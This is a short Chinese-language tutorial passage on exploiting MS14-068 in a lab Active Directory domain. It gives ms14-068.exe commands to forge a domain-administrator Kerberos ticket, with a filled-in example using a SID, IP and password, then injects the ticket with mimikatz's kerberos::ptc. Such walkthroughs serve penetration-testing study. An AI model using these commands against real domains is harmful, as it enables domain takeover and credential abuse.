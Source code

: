 ### ③漏洞利用

#### 1、生成域控管理员密钥

```plain
使⽤现成的脚本来获取票据：
ms14-068.exe -u <⽤户名@域名> -s <SID> -d <ip 地址> -p <⽤户密码>

MS14-068.exe -u Administrator@MAO.COM -s S-1-5-21-863777703-696496247-1862912240-500 -d 192.168.126.10 -p Admin@123
```

[![](assets/1706496056-49363d4e3c11261befe682072fa18f66.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172311027-1846755783.png)

#### 2、将内存中导入生成好的票据

然后使⽤ mimikatz 的 `kerberos::ptc` 模块来载⼊票据。

```plain
mimikatz.exe
privilege::debug
kerberos::ptc TGT_Administrator@MAO.COM.ccache
```
